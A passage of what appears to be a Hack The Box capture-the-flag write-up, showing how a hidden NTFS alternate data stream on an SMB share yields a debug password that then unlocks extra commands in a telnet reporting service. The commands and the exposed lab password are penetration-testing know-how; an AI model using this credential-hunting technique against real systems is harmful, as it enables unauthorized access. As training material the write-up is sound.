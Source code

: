 

However, if I run `allinfo` on it, I can see something else:



    smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
    altname: DEBUGM~1.TXT
    create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
    access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
    write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
    change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
    attributes: A (20)
    stream: [::$DATA], 0 bytes
    stream: [:Password:$DATA], 15 bytes



There's an alternative data stream (ADS) there. I've run into these on
HTB before. In both [Hackback](/htb-hackback.md#roottxt)
and [Dropzone](/htb-dropzone.md#alternative-data-streams)
the root flag was in an ADS. In
[Bighead](/htb-bighead.md#roottxt) it was the Keepass
database. I can get it with `smbclient` just by specifying the entire
stream name with a `get`:



    smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
    getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)



Locally, I can get the password:



    root@kali# cat Debug\ Mode\ Password.txt\:Password 
    WBQ201953D8w 



### Revisiting HQK Reporting

I'll connect again to HQK (using `rlwrap` to get arrow keys), and enter
the debug creds. They work, and new commands are unlocked:



    root@kali# rlwrap telnet 10.10.10.178 4386
    Trying 10.10.10.178...
    Connected to 10.10.10.178.
    Escape character is '^]'.

    HQK Reporting Service V1.2

    > debug WBQ201953D8w

    Debug mode enabled. Use the HELP command to view additional commands that are now available
    > help

    This service allows users to run queries against databases using the legacy HQK format
